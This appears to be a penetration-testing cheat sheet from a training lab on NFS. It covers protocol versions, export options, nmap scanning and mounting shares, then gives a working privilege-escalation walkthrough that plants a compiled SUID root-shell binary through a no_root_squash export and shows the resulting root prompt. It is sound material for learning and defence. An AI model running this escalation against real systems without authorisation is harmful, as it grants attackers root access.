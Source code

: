 | **Version** | **Features**                                                                                                                                                                                                                                                         |
| ----------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `NFSv2`     | It is older but is supported by many systems and was initially operated entirely over UDP.                                                                                                                                                                           |
| `NFSv3`     | It has more features, including variable file size and better error reporting, but is not fully compatible with NFSv2 clients.                                                                                                                                       |
| `NFSv4`     | It includes Kerberos, works through firewalls and on the Internet, no longer requires portmappers, supports ACLs, applies state-based operations, and provides performance improvements and high security. It is also the first version to have a stateful protocol. |

| **Option**         | **Description**                                                                                                                             |
| ------------------ | ------------------------------------------------------------------------------------------------------------------------------------------- |
| `rw`               | Read and write permissions.                                                                                                                 |
| `ro`               | Read only permissions.                                                                                                                      |
| `sync`             | Synchronous data transfer. (A bit slower)                                                                                                   |
| `async`            | Asynchronous data transfer. (A bit faster)                                                                                                  |
| `secure`           | Ports above 1024 will not be used.                                                                                                          |
| `insecure`         | Ports above 1024 will be used.                                                                                                              |
| `no_subtree_check` | This option disables the checking of subdirectory trees.                                                                                    |
| `root_squash`      | Assigns all permissions to files of root UID/GID 0 to the UID/GID of anonymous, which prevents `root` from accessing files on an NFS mount. |


### Scanning

````bash
sudo nmap x.x.x.x -p111,2049 -sV -sC
sudo nmap --script nfs* x.x.x.x -sV -p111,2049
````

Viewing Who can access the NFS device:

```bash
showmount -e x.x.x.x
```

Mount NFS share::

```bash
mkdir target-NFS
sudo mount -t nfs x.x.x.x:/ ./target-NFS/ -o nolock
```

Or:

```bash
sudo mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
cd target-NFS
tree .
sudo umount ./target-NFS
````
### Privilege Escalation

Targets configuration file:

```bash
cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

| Option           | Description                                                                                                                   |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------- |
| `root_squash`    | Converts root access to an unprivileged user (`nfsnobody`), preventing root-owned file creation and potential security risks. |
| `no_root_squash` | Allows root access to create files as root, which can be a security risk.                                                     |
With the `no_root_squash`, we can escalate to `root`.

From the attacking system:

```bash
showmount -e 10.129.2.210
Export list for 10.129.2.210:
/tmp             *
/var/nfs/general *
```

Use the following c code:

```bash
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

Compile:

```bash
gcc shell.c -o shell --static
```

Mount target:

```bash
mkdir priv_esc
sudo mount -t nfs 10.129.2.210:/tmp priv_esc/
cp shell priv_esc/
cd priv_esc/
su root
chmod u+s shell <-- Make sure you are root locally
```

Back on target:

``` bash
cd /tmp
ls -lash
total 68K
4.0K drwxrwxrwt 13 root root 4.0K Feb  4 12:06 .
4.0K drwxr-xr-x 25 root root 4.0K Jan 25  2024 ..
4.0K drwxrwxrwt  2 root root 4.0K Feb  4 11:55 .font-unix
4.0K drwxrwxrwt  2 root root 4.0K Feb  4 11:55 .ICE-unix
 16K -rwsr-xr-x  1 root root  16K Feb  4 12:06 shell

 ./shell 
# id
uid=0(root) gid=0(root) groups=0(root),1008(htb-student)
```


